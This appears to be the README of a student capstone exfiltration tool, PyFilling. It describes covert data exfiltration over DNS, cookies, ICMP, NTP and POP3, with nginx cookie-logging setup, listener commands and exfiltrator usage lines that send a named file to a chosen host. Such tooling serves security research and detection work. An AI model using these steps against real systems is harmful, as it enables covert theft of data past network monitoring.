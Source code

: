 # PyFilling
PyFilling is the Capstone project of  @supermcpeanut, @a-levsky, & @tchrinder. This tool was designed to see if it is possible to develop an automated tool that can identify the optimal time, packet size and perform the exfiltration based on the results.

## Quick Overview
![Alt text](InternalStructure_PyFilling.jpg?raw=true "Internal Structure Overview")

*  Exfiltration Protocols
    *  DNS
    *  HTTP Cookie
    *  HTTPS Cookie
    *  ICMP
    *  NTP
    *  POP3 Authentication

## Installation & Preparation
In order to preform the exfiltration the following steps are required:

- We wanted to use as few python servers as possible, as such we relied on Nginx to capture incomming cookies
    *  A simple method of installing and configuring Nginx on Ubuntu can be found [here](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-16-04 "Digital Ocean Setup")

    *  If Nginx is used the following changes to etc/nginx/nginx.conf are required
```bash
    ##
    # Logging Settings
    ##
    log_format main '"cookies=$http_cookie;"';
    access_log /var/log/nginx/access.log main;
    error_log /var/log/nginx/error.log;
```
*It should be noted that this change will make the access_log only log cookies.*

*Addtionally to proper use our HTTPS exfiltration the server should have a certificate and an innocuous domain name.*

*Certbot makes it trivial to register a cert, found* [here](https://certbot.eff.org/ "Certbot Setup")

## Running the listeners

All the Protocol listeners/servers need to be setup.
```bash
# serve.py:
# "-a", "--address": Used to specify the IP address or domain name
# "-i", "--protocol": Used to specify the listener protocol
# "-s", "--size": Not used anymore, previously used to specify the size of the receiving
python3 serve.py -a "<IP or Domain Name>" -i "DNS"
python3 serve.py -a "<IP or Domain Name>" -i "NTP"
python3 serve.py -a "<IP or Domain Name>" -i "POP3"
python3 serve.py -a "<IP or Domain Name>" -i "ICMP"
```

## Performing exfiltration
Performing exfiltration can be done in one of two methods:

*  By using PAS to conduct packet analysis and automate the exfiltration
```python
pip install -r requirements.txt
./pas.py
```
*  or by using the exfiltrator independently of PAS
```bash
# "-d", "--destination": Used to specify the destination IP address or domain name which the exfiltrated data will be sent too.
# "-f", "--file": Used to specify the file that will be exfiltrated
# "-i", "--protocol": Used to specify the protocol used during exfiltration
# "-s", "--size": Used to specify the size of each packet to be sent
./exfiltrator -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
python3 exfiltrator.py -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
```

## Acknowledgements
We wanted to thank the following people:

*  Anyone who had to put up with the stress of Adam slowly losing his mind. 
*  Nick for the general guidance & support. 
*  The works of @ytisf made building the exfiltration modules simpler.
*  De Mello Palheta for the immeasurable number of 4-shot americanos consumed.
*  Maker Pizza for the numerous pizzas eaten.
*  Lastly, @bitofeverything for coming up with the name PyFilling.  